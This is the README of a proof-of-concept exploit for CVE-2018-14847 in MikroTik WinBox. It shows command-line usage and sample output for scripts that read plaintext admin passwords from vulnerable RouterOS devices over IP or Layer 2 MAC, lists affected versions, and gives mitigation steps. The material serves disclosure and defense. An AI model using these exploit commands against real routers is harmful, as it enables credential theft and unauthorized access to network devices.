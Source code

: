 # WinboxExploit
This is a proof of concept of the critical WinBox vulnerability (CVE-2018-14847) which allows for arbitrary file read of plain text passwords.

## Blogpost
https://n0p.me/winbox-bug-dissection/

## Requirements
- Python 3+

This script will NOT run with Python 2.x or lower.

## How To Use
The script is simple used with simple arguments in the commandline.

#### WinBox (TCP/IP)
Exploit the vulnerability and read the password.
```
python3 WinboxExploit.py <ip-address>
```
Example:
```
$ python3 WinboxExploit.py 172.17.17.17

User: admin
Pass: Th3P4ssWord
```

#### MAC server WinBox (Layer 2)  
You can extract files even if the device doesn't have an IP address.

Simple discovery check for locally connected Mikrotik devices.
```
python3 MACServerDiscover.py
```
Example:
```
$ python3 MACServerDiscover.py
Looking for Mikrotik devices (MAC servers)

    aa:bb:cc:dd:ee:ff 

    aa:bb:cc:dd:ee:aa
```

Exploit the vulnerability and read the password.
```
python3 MACServerExploit.py <mac-address>
```
Example:
```
$ python3 MACServerExploit.py aa:bb:cc:dd:ee:ff

User: admin
Pass: Th3P4ssWord
```

## Vulnerable Versions
All RouterOS versions from 6.29 (release date: 2015-05-28) to 6.42 (release date: 2018-04-20) are vulnerable to this exploit.

Mikrotik devices running RouterOS versions:

- Longterm: 6.30.1 - 6.40.7
- Stable: 6.29 - 6.42
- Beta: 6.29rc1 - 6.43rc3

For more information see: https://blog.mikrotik.com/security/winbox-vulnerability.html

## Mitigation Techniques
- Upgrade the router to a RouterOS version that include the fix. 
- Disable the WinBox service on the router.
- You can restricct access to the WinBox service to specific IP-addresses wtih the following:
```
/ip service set winbox address=10.0.0.0/8,172.16.0.0/12,192.168.0.0/16
```
- You may use some Filter Rules (ACL) to deny external access to the WinBox service:
```
ip firewall filter add chain=input in-interface=wan protocol=tcp dst-port=8291 action=drop
```
- Limiting access to the mac-winbox service can be done by specifing allowed interfaces:
```
/tool mac-server mac-winbox
```

## Copyright
 - Sponsered by Iran's CERTCC(https://certcc.ir). All rights resereved.
